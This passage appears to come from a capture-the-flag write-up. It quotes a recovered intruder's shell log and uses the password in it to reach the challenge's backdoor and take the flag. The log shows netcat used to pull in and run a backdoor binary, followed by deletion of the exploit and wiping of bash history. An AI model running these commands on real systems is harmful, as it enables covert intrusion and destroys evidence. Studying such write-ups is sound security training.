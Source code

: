 ```
# nc -l 1337 > /lib/network/daemon
# chmod +x /lib/network/daemon
# /lib/network/daemon
Success... running on port 1338
# nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
ls /home/john
exploit  logs  site
^C
# rm exploit
# echo "" > .bash_history
# echo "" > ~/.bash_history
# exit
```

At this point, it was just a matter of repeating the commands above. I connected to `logger.sdc.tf` on port 1338 and typed in the password, to which I was greeted with the flag!

<img src="/static/sdctf-logs/image.png" width="800px">

**Flag** - `sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}`